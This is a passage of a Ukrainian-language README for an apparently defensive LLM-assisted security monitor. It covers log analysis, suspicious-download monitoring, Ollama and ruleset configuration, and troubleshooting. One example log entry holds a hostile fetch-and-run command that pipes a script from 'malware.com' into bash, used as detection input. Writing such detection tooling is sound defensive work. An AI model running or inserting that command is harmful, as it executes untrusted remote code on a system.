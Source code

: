 ### 2. Аналіз логу
```python
log_entry = "bash -c 'curl http://malware.com/script.sh | bash'"
result = analyzer.analyze_log_entry(log_entry)

print(f"Rule violations: {len(result['rule_violations'])}")
print(f"AI analysis: {result['ai_analysis']}")
```

### 3. Моніторинг завантажень
```python
from security_monitor import SecurityMonitor

monitor = SecurityMonitor()
downloads = monitor.monitor_suspicious_downloads()

for file_info in downloads:
    if file_info['suspicious']:
        print(f"Suspicious file: {file_info['filename']}")
        print(f"Hash: {file_info['hash']}")
```

## 🔧 Налаштування

### Конфігурація ШІ
Відредагуйте параметри в `llm_security_agent.py`:
```python
ollama_host = "http://localhost:11434"  # Адреса Ollama
ollama_model = "llama3:latest"          # Модель для аналізу
```

### Конфігурація правил
Додайте власні набори правил у `core/rule_manager.py`:
```python
self.rulesets = {
    "emerging_threats": "https://rules.emergingthreats.net/...",
    "custom_rules": "https://your-custom-rules.com/rules.txt"
}
```

## 🚨 Вирішення Проблем

### ШІ недоступна
```bash
# Перевірте, чи запущено Ollama
ps aux | grep ollama

# Запустіть Ollama
ollama serve

# Перевірте доступні моделі
ollama list
```
